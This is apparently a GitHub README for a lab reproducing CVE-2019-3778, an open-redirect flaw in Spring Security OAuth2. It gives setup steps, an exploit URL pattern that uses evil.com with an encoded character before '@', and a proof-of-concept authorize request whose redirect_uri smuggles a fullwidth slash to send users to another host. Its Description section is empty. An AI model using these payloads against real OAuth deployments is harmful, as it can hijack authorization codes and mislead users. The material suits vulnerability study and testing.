


# [CVE-2019-3778]Spring-Security-OAuth2 Open Redirection

### Description


### Environment

1. load the sql file
2. change the username and password of the database.
3. ```mvn install```
4. ```java -jar xxxx.jar```


### EXP

```http://evil.com%ff@good.com```

### PoC

```http://localhost:9090/oauth/authorize?response_type=code&client_id=ananaskr&redirect_uri=http://www.google.com%EF%BC%8F@www.baidu.com&scope=all&client_secret=123456```




